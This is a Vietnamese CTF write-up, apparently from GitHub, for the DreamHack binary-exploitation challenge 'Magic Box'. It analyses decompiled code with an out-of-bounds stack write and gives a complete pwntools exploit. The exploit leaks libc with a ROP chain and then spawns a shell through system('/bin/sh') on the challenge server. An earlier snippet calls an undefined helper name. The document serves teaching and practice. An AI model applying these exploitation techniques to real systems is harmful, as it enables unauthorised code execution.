


# Magic-Box---Write-up-----DreamHack
Hướng dẫn cách giải bài Magic Box cho anh em mới chơi pwnable.

**Author:** Nguyễn Cao Nhân aka Nhân Sigma

**Category:** Binary Exploitation

**Date:** 28/1/2026

## 1. Mục tiêu cần làm
Đầu tiên là xem các lớp phòng thủ xem có gì



No PIE, khá ổn áp. Giờ hãy sang phần lỗi trong code.

```C
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  void *v4; // [rsp+8h] [rbp-8h]

  sub_4011F6();
  v4 = malloc(4096uLL);        // khởi tạo v4 tận 0x1000 byte để làm gì nhỉ
  if ( !v4 )
  {
    puts("malloc() error");
    exit(1);
  }
  sub_40149E((__int64)v4);
  sub_4012CA((__int64)v4);
  return 0LL;
}
```

```C
unsigned __int64 __fastcall sub_40149E(__int64 a1)
{
  unsigned int v1; // eax
  char buf; // [rsp+1Bh] [rbp-15h] BYREF
  int i; // [rsp+1Ch] [rbp-14h]
  ssize_t v5; // [rsp+20h] [rbp-10h]
  unsigned __int64 v6; // [rsp+28h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  for ( i = 0; i <= 4095; ++i )
  {
    v5 = read(0, &buf, 1uLL);
    if ( v5 != 1 )
    {
      puts("read() error");
      exit(1);
    }
    v1 = buf - 48;
    if ( v1 > 0x36 || ((0x7E0000003E03FFuLL >> v1) & 1) == 0 )
      break;
    *(_BYTE *)(a1 + i) = buf;
  }
  return v6 - __readfsqword(0x28u);
}
```

```C
unsigned __int64 __fastcall sub_4012CA(__int64 a1)
{
  int v1; // eax
  int v3; // [rsp+14h] [rbp-2Ch] BYREF
  int i; // [rsp+18h] [rbp-28h]
  int v5; // [rsp+1Ch] [rbp-24h]
  int v6; // [rsp+20h] [rbp-20h]
  char nptr[3]; // [rsp+26h] [rbp-1Ah] BYREF
  char v8[23]; // [rsp+29h] [rbp-17h] BYREF

  *(_QWORD *)&v8[15] = __readfsqword(0x28u);
  strcpy(v8, "hello world :)");
  v3 = 0;
  v5 = 0;
  for ( i = 0; i <= 4095; ++i )
  {
    if ( !v5 )
    {
      switch ( *(_BYTE *)(i + a1) )
      {
        case 'A':
          sub_40123D(v8);
          continue;
        case 'B':
          return *(_QWORD *)&v8[15] - __readfsqword(0x28u);
        case 'C':
          sub_40125C(&v3);
          continue;
        case 'D':
          sub_40127A(&v3);
          continue;
        case 'E':
          v5 = 1;
          continue;
        default:
          exit(1);
      }
    }
    v1 = *(char *)(i + a1);
    if ( v1 > 57 )
    {
      if ( (unsigned int)(v1 - 97) > 5 )
LABEL_17:
        exit(1);
    }
    else if ( v1 < 48 )
    {
      goto LABEL_17;
    }
    if ( v5 == 1 )
    {
      v5 = 2;
    }
    else if ( v5 == 2 )
    {
      nptr[0] = *(_BYTE *)(i - 1LL + a1);
      nptr[1] = *(_BYTE *)(i + a1);
      nptr[2] = 0;
      v6 = strtol(nptr, 0LL, 16);
      sub_401298((__int64)v8, v3, v6);
      v5 = 0;
    }
  }
  return *(_QWORD *)&v8[15] - __readfsqword(0x28u);
}
```

Ta phát hiện 1 lỗi khá nặng ở đây, nó khởi tạo mảng `char v8` chỉ có 23 byte, nhưng con trỏ index `v3` nó lại không kiểm tra >= 0 hoặc <= 23. Tức là ta có lỗi **OOB** ở đây. Còn khởi tạo mảng `v4` là để ta nhập các lệnh điều khiển vào và nó sẽ dò từng lệnh 1 trong mảng v4 để thực thi với các lệnh như sau :
- 'A' : in ra mảng `v8`, tức là in từ 0 đến khi gặp byte null.
- 'B' : kết thúc chương trình
- 'C' : +1 cho `v3`
- 'D' : -1 cho `v3`
- 'E' : ghi byte sau `E` vào vị trí `v3`. Ví dụ `E41` và `v3` đang là 2 tức là ghi A và vị trí 2.

Dựa vào cấu trúc trên, ta có được sơ đồ stack như sau



0 - 14 vị trí đầu là của `strcpy(v8, "hello world :)");`, tiếp theo là canary `*(_QWORD *)&v8[15] = __readfsqword(0x28u);`. Sau đó là saved RBP và saved RIP.

Vậy là xong cách hoạt động + lỗi, giờ làm sao khai thác nó. Hãy qua bước 2.

## 2. Cách thực thi
Nó thực thi theo kiểu ghi 1 loạt lệnh vào và thực thi cùng 1 lúc nên ta không thể dừng lại để leak libc được. Vậy nên ta cần phải ghi đè RIP để quay về main và chạy lại chương trình.

Mình đã tưởng rằng RIP sẽ là `libc_main_start` như mọi chương trình khác nhưng khi leak mình đã lầm. Nó là 1 địa chỉ binary thôi, nên ta sẽ tạo 1 ROPchain để leak libc. Bài này NO PIE nên ROPchain thoải mái.

```Python
pop_rdi = 0x4012c5
puts_plt = e.plt['puts']
puts_got = e.got['puts']
main_addr = 0x401574

def write_addr_payload(addr):
    """Hàm tạo chuỗi lệnh 'C' và 'E' để ghi 8 byte của một địa chỉ"""
    res = b''
    byte_addr = p64(addr)
    for i in range(8):
        if i > 0: res += b'C'
        res += f'E{byte_addr[i]:02x}'.encode()
    return res

payload = b'C' * 31
payload += write_addr(pop_rdi)
payload += b'C' + write_addr(puts_got)
payload += b'C' + write_addr(puts_plt)
payload += b'C' + write_addr(main_addr)
payload += b'B'

p.sendline(payload)

p.recvuntil(b'world :)\n')
libc_puts = u64(p.recv(6).ljust(8, b'\x00'))
libc_base = libc_puts - 0x80e50
log.success(f"Libc base: {hex(libc_base)}")
```

Ta sẽ tạo 1 ROPchain vừa leak libc vừa quay về lại main.

Sau khi quay lại main thì bước 2 là tạo 1 ROPchain thực thi system là xong.

```Python
system = libc_base + 0x50d70
binsh = libc_base + 0x1d8698

payload2 = b'C' * 31
payload2 += write_addr(ret)
payload2 += b'C' + write_addr(pop_rdi)
payload2 += b'C' + write_addr(binsh)
payload2 += b'C' + write_addr(system)
payload2 += b'B'

p.sendline(payload2)
p.interactive()
```

Vậy là xong rồi, bài này khá là đơn giản thôi. Nó chỉ hơi rối rắm 1 tí nhưng mình đánh giá bài này ở mức độ 2 ở DreamHack thôi. Dù sao thì hãy cho mình 1 star để có động lực viết tiếp nha 🐧.

## 3. Exploit
```Python
from pwn import *

p = remote('host1.dreamhack.games', 15253)
e = ELF('./chall')

# Gadgets & Addresses
pop_rdi = 0x4012c5
main_addr = 0x401574
ret = 0x40101a
puts_plt = e.plt['puts']
puts_got = e.got['puts']

def write_addr(addr):
    res = b''
    byte_addr = p64(addr)
    for i in range(8):
        if i > 0: res += b'C'
        res += f'E{byte_addr[i]:02x}'.encode()
    return res

# --- GIAI ĐOẠN 1: LEAK LIBC ---
# Di chuyển thẳng tới RIP (offset 31), bỏ qua Canary
payload = b'C' * 31
payload += write_addr(pop_rdi)
payload += b'C' + write_addr(puts_got)
payload += b'C' + write_addr(puts_plt)
payload += b'C' + write_addr(main_addr)
payload += b'B'

p.sendline(payload)

p.recvuntil(b'world :)\n')
libc_puts = u64(p.recv(6).ljust(8, b'\x00'))
libc_base = libc_puts - 0x80e50
log.success(f"Libc base: {hex(libc_base)}")

system = libc_base + 0x50d70
binsh = libc_base + 0x1d8698

# --- GIAI ĐOẠN 2: GET SHELL ---
# v3 được reset về 0 khi hàm xử lý lệnh bắt đầu lượt mới
payload2 = b'C' * 31
payload2 += write_addr(ret) # Căn chỉnh stack 16-byte cho system
payload2 += b'C' + write_addr(pop_rdi)
payload2 += b'C' + write_addr(binsh)
payload2 += b'C' + write_addr(system)
payload2 += b'B'

p.sendline(payload2)
p.interactive()
```

Các offset trên là dành cho bản server, nếu các bạn chạy local thì sẽ hơi khác 1 tí.
